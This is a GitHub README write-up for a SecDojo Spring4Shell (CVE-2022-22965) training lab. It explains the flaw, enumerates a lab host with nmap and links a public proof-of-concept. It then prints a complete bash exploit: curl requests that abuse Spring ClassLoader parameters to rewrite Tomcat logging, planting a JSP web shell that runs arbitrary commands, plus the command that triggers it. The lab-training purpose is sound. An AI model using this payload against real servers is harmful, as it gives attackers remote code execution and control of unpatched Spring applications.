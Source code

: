 ![image](https://user-images.githubusercontent.com/48088579/163294479-53aa159b-590b-46af-9a3c-dc8436b654cb.png)

# spring4shell-secdojo
A write-up for SecDojo Spring4shell lab.

[SecDojo](https://www.sec-dojo.com/) CyberLabs is a cyber security learning platform where you can put in practice your theoretical knowledge throughout training in LAB environments in order to help you assess the required knowledge for a proper acquisition of the concepts.

# What is Spring4Shell vulnerability? A brief explanation of Spring4Shell.

Spring4Shell (CVE-2022-22965) is a bypass of the patch for CVE-2010-1622, the vulnerability allows the attacker to upload a .JSP web shell into the target machine allowing him/her to execute commands and gain control over the target.

Spring4Shell main core problem is related to how Spring MVC works to handle a specified class based on the parameters provided by the user, and this can be used to overwrite Tomcat logging properties to create a new malicious file using ClassLoader module.

# Spring4Shell Lab:

![image](https://user-images.githubusercontent.com/48088579/163294527-5c36d2de-05b4-43f2-b752-bab39ac5f2bd.png)

Target IP: 172.16.4.33

## Enumeration and Exploitation:
```
nmap -sC -sV 172.16.4.33 | grep open
```
```
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
```
A tomcat server is running on 8080 port redirecting us to /login-form/greeting, where we will use our malicious class and gain control using [exploit.py](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py):
![image](https://user-images.githubusercontent.com/48088579/163294632-5d4c22ba-9340-4fb1-8b57-1f068fccd03c.png)

or shell version:

```bash
#!/bin/bash
curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_" http://172.16.4.33:8080/login-form/greeting &>/dev/null

curl -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=webshell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=" http://172.16.4.33:8080/login-form/greeting &>/dev/null; sleep 3

curl -H "prefix: <%" -H "suffix: %>//" -H "c: Runtime" -H "Content-Type: application/x-www-form-urlencoded" http://172.16.4.33:8080/login-form/greeting &>/dev/null; sleep 1
```
Where our web shell in /webshell.jsp:
```bash
curl http://172.16.4.33:8080/webshell.jsp?cmd=id --output -
```
# Resources:
- https://www.trendmicro.com/en_no/research/22/d/cve-2022-22965-analyzing-the-exploitation-of-spring4shell-vulner.html
- https://unit42.paloaltonetworks.com/cve-2022-22965-springshell/
- https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/
